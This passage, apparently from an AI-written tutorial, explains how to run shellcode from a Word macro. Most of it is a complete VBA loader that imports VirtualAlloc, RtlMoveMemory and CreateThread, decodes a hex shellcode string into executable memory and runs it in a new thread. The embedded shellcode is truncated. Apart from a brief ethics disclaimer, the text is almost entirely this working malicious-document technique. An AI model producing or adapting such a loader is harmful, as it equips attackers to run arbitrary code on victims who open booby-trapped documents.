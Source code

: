 Executing shellcode in Word macros, especially through VBA, can be highly dangerous and is often associated with malware. However, from a technical perspective, I'll provide a basic understanding of how shellcode execution can occur in Word macros using VBA and PowerShell, along with obfuscation techniques.

**Warning**: This information should only be used for ethical purposes, such as penetration testing in controlled environments or research. Improper use could lead to malicious outcomes.

### 1. **Basic Shellcode Execution in a Word Macro (VBA)**

In this example, we’ll demonstrate the basic steps required to load shellcode from a VBA macro in Word and execute it. This involves calling Windows API functions like `VirtualAlloc`, `RtlMoveMemory`, and `CreateThread`.

#### **VBA Macro: Execute Shellcode**

```vba
Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lpDestination As LongPtr, ByVal lpSource As LongPtr, ByVal Length As Long) As Long
Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThreadAttributes As LongPtr, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, ByVal lpParameter As LongPtr, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As LongPtr

Sub RunShellcode()
    ' Simple shellcode (calc.exe example for demonstration)
    Dim shellcode As String
    shellcode = _
        "fc4883e4f0e8c0000000415141505251564831d2" & _
        "65488b5260488b5218488b5220488b725048ad48" ' (Example shellcode)

    Dim scBytes() As Byte
    Dim shellcodeLength As Long
    shellcodeLength = Len(shellcode) \ 2
    ReDim scBytes(0 To shellcodeLength - 1)

    Dim i As Long
    For i = 1 To Len(shellcode) Step 2
        scBytes((i - 1) \ 2) = CByte("&H" & Mid(shellcode, i, 2))
    Next i

    ' Allocate memory for shellcode
    Dim addr As LongPtr
    addr = VirtualAlloc(0, shellcodeLength, &H1000 Or &H2000, &H40) ' MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE

    ' Move shellcode into allocated memory
    Call RtlMoveMemory(addr, VarPtr(scBytes(0)), shellcodeLength)

    ' Create a thread to execute the shellcode
    Call CreateThread(0, 0, addr, 0, 0, 0)
End Sub
```
